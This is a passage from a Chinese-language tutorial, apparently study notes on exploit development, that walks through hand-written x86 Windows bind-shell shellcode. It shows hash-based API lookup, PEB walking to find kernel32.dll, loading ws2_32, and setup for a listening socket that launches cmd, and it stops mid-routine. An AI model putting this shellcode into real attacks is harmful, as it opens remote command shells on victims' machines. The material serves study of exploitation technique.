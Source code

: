 **编写最终汇编代码**

首先是放入hash和字符串：

```assembly
; start of shellcode 
; assume: eax points here 
; function hashes (executable as nop-equivalent) 
	_emit 0x59	; LoadLibraryA ; pop ecx 
	_emit 0x81 	; CreateProcessA ; or ecx, 0x203062d3 
	_emit 0xc9 	; ExitProcess 
	_emit 0xd3 	; WSAStartup 
	_emit 0x62 	; WSASocketA 
	_emit 0x30 	; bind 
	_emit 0x20 	; listen 
	_emit 0x41 	; accept ; inc ecx 
; "CMd" 
	_emit 0x43 	; inc ebx 
	_emit 0x4d 	; dec ebp 
	_emit 0x64 	; FS: 
```

后面我们将通过循环一次定位出8个地址，把它们依次写入从`_emit 0x59`前24个字节处开始的地方，这样最终在8个函数全部定位完后这里的内容下图中右侧是这样的：

![Screen Shot 2018-06-23 at 3.36.13 PM.png]({{ site.url }}/images/0day/777C4DC730443CF4B883E011EB8367AE.png)

这里有一个不理解的地方：`CMd`并不是以尾零结束，莫非Windows API在接受参数时遇到不可见字符会自动认为是字符串结束？（后面会解答）

这里的设置很巧妙：未来可以通过指向"CMd"的指针直接来调用`CreateProcessA`。

之后把esi/edi分别指向hash和未来函数地址被写入的开始位置：

```assembly
; start of proper code 
	cdq 					; set edx = 0 (eax points to stack so is less than 0x80000000) 
	xchg eax, esi 			; esi = addr of first function hash 
	lea edi, [esi - 0x18] 	; edi = addr to start writing function 
							; addresses (last addr will be written just 
							; before "cmd") 
```

接着就是定位库和API。之前的过程中有过切换库基址到`user32.dll`的过程，这里类似，切换到`ws2_32`。另外，后面调用`WSAStartup`需要一个较大内存块，注意由于之前的`cdq`，现在`edx`是0：

```assembly
; find base addr of kernel32.dll 
	mov ebx, fs:[edx + 0x30] 	; ebx = address of PEB 
	mov ecx, [ebx + 0x0c] 		; ecx = pointer to loader data 
	mov ecx, [ecx + 0x1c] 		; ecx = first entry in initialisation order list 
	mov ecx, [ecx] 				; ecx = second entry in list (kernel32.dll) 
	mov ebp, [ecx + 0x08] 		; ebp = base address of kernel32.dll 
	
; make some stack space 
	mov dh, 0x03 			; sizeof(WSADATA) is 0x190 
	sub esp, edx 
	
; push a pointer to "ws2_32" onto stack 
	mov dx, 0x3233 			; rest of edx is null 
	push edx 
	push 0x5f327377 
	push esp 
	
find_lib_functions: 
	lodsb 					; load next hash into al and increment esi 
	cmp al, 0xd3 			; hash of WSAStartup - trigger 
							; LoadLibrary("ws2_32") 
	jne find_functions 
	xchg eax, ebp 			; save current hash 
```